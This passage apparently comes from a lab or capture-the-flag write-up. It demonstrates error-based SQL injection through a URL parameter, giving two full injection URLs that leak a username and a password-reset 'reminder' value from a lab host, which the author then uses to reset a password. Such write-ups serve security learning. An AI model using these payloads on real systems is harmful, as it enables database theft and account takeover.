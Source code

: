 The `SELECT username FROM users LIMIT 0,1` output gets reflected in the MySQL error.

`http://192.168.237.127:33033/slug?URL=%27%20AND%201=%20(SELECT%201%20FROM(SELECT%20COUNT(*),concat(0x3a,(SELECT%20username%20FROM%users%20LIMIT%200,1),FLOOR(rand(0)*2))x%20FROM%20information_schema.TABLES%20GROUP%20BY%20x)a)--%20-`

![](../../.gitbook/assets/88e9f04f0fa640bc9b4e6ea1ecfb9f52.png)

In this case, we can see that `evren.eagan` is the first username.

Replacing the inner query with `SELECT reminder FROM USERS LIMIT 0,1`, we see the reminder, `4qpdR87QYjRbog`.

{% embed url="http://192.168.237.127:33033/slug?URL=%27%20AND%201=%20(SELECT%201%20FROM(SELECT%20COUNT(*),concat(0x3a,(SELECT%20reminder%20FROM%20USERS%20LIMIT%200,1),FLOOR(rand(0)*2))x%20FROM%20information_schema.TABLES%20GROUP%20BY%20x)a)--%20-" %}

![](../../.gitbook/assets/b304646cfb9b4f7993b11fe6300ba5ca.png)

With this, we can go back to the password reset page and successfully reset the password.
